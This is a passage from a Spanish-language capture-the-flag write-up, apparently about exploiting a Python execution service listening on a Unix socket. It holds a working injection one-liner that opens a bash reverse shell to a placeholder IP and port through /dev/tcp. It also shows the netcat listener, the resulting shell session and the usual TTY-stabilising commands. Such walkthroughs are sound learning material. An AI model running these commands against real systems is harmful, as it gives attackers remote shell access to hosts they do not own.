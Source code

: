 Info:

```
uid=1001(juan) gid=1001(juan) groups=1001(juan)
```

Vemos que esta funcionando, ya que estamos capturando la excepcion y mostrandola por pantalla, ya que de otra forma no funcionaria para mostrarnos el comando.

Vamos a realizar la `reverse shell` ya.

```shell
echo 'import subprocess; raise Exception(subprocess.check_output("bash -c \"bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\"", shell=True, stderr=subprocess.STDOUT).decode())' | nc -U /tmp/dev.sock
```

Pero antes de darle a `ENTER` vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el anterior comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 54816
bash: cannot set terminal process group (49): Inappropriate ioctl for device
bash: no job control in this shell
juan@c5f5169bfe06:~$ whoami
whoami
juan
```

Vemos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user alex
